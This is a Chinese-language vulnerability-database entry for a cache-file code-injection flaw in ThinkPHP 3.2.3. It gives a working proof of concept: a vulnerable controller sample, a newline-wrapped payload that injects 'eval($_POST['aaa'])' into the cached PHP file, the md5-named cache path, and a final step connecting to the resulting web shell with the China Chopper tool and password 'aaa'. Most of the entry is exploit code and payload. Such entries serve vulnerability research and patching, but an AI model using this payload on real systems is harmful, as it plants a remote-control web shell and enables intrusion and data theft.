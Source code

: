 ```yaml
---
title: 'Thinkphp-3.2.3-缓存漏洞'
date: Thu, 27 Aug 2020 15:46:34 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

Thinkphp 3.2.3

### 漏洞产生条件

此版本默认的缓存处理机制中，缓存文件是一个可访问的.php文件，编程人员把用户可控参数写入缓存则会产生漏洞。

### 漏洞验证POC

##### 获取用户可控参数写入缓存

例：

```
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {

    public function index(){
        $a=I('post.a');
        S('name',$a);
    }
}
```

##### 用户传参数：

```
?a=%0aeval($_POST['aaa']);%0a
```

%0a为换行符，默认存入缓存文件时用户参数存在于注释中。

##### 写入缓存文件，文件名为md5加密

```
md5(name)
```

##### 文件默认路径

```
<domain>/Application/Runtime/Temp/<md5>.php
```

##### 菜刀连接

```
http://xxxxxxx/Application/Runtime/Temp/<md5>.php 密码aaa
```